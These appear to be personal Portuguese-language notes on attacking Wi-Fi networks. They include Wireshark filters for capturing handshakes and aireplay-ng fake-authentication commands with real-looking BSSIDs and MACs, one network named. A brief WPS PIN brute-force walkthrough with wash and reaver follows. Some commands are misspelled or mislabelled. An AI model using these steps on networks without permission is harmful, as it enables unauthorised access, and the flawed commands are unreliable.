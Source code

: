 ```bash
# Filtra tudo de um IP específico
id.addr == 192.168.1.23

# Filtra tudo de um IP específico e com protocolo http
id.addr == 192.168.1.23 && http

# Filtra pacotes de handskacke
eapol
```



----------

https://shehackske.medium.com/how-to-hack-wpa-wpa2-wifi-with-reaver-426899cbcf06

```bash
# Vê os pacotes entre roteadores e devices
sudo airdump-ng wlan0mon

# Deautenchicate
airmon-ng start wlan0mon 5 # Define o canal que vai operar!

# 
sudo aireplay-ng --fakeauth 30 -a {bssid} -h {macid} wlan0
sudo aireplay-ng --fakeauth 30 -a 98:DA:C4:DD:E4:6C -h 98:39:8E:6B:C1:9B wlan0mon      # Bellini
sudo aireplay-ng --fakeauth 30 -a 70:4F:57:0E:17:58 -h 78:44:76:84:0a:f5 wlan0mon
```



-----------

## Tutoriais

### Find wi-fi password using WPS

Seguindo o vídeo [Hack wifi with wps crack using reaver in kali linux 2018.1](https://www.youtube.com/watch?v=5ad8pCbkhOw) vi a possibilidade de descobrir senhas wi-fi de roteadores que usam WPS, sem que seja definido um limite de testes. Outro site detalha outras opções que podem aperfeiçoar o código [**WPS Cracking with Reaver**](https://outpost24.com/blog/wps-cracking-with-reaver).



Passa a passo

1. Colocar o adaptar wifi em monitor mode
2. Com wash, descobrir as redes com WPS na região
3. Com reaver, brutal force wifi



Consegui êxito na minha rede pessoal em 12.424 segundos, ou seja, após ~4 horas.

